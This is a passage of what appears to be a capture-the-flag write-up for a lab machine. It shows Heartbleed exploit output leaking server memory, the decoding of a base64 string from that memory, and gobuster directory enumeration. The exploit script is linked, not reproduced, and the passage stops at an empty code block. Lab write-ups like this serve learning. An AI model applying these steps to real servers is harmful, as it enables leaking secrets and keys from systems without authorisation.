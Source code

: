 As we can see this machine results vulnerable to heartbleed.  
heartbleed is a memory leak vulnerability that affects OpenSSL versions 1.0.1 and 1.0.2-beta releases (including 1.0.1f and 1.0.2-beta1) of OpenSSL are affected by the Heartbleed bug. This bug allows for reading memory of systems protected by the vulnerable OpenSSL versions and could allow for disclosure of otherwise encrypted confidential information as well as the encryption keys themselves.  
So let's try to exploit this vulnerability using [this](https://gist.github.com/eelsivart/10174134) python script.  
```
##################################################################
Connecting to: 10.10.10.79:443, 1 times
Sending Client Hello for TLSv1.0
Received Server Hello for TLSv1.0

WARNING: 10.10.10.79:443 returned more data than it should - server is vulnerable!
Please wait... connection attempt 1 of 1
##################################################################

.@....SC[...r....+..H...9...
....w.3....f...
...!.9.8.........5...............
.........3.2.....E.D...../...A.................................I.........
...........
...................................#.......0.0.1/decode.php
Content-Type: application/x-www-form-urlencoded
Content-Length: 42

$text=aGVhcnRibGVlZGJlbGlldmV0aGVoeXBlCg==.U..L....op.g.YZ.wa

Decoded
```
As we can see we managed to grab a piece of system's protected memory with a base 64 encoded string.  
Now, let's try to decode this piece of information.  
```
[root@kali exploits ]$ echo -n aGVhcnRibGVlZGJlbGlldmV0aGVoeXBlCg== | base64 -d
heartbleedbelievethehype
```
Since we come to a dead end let's try to enumerate the webserver.  
First thing first, let's try to run gobuster.  
```
/index                (Status: 200) [Size: 38]
/dev                  (Status: 301) [Size: 310] [--> https://10.10.10.79/dev/]
/encode               (Status: 200) [Size: 554]
/decode               (Status: 200) [Size: 552]
/omg                  (Status: 200) [Size: 153356]
/server-status        (Status: 403) [Size: 293]
```
Inside /dev we can find two files, one of this file is a hex encoded ssh key.

## User
The file found inside /dev public directory looks like this:
```
```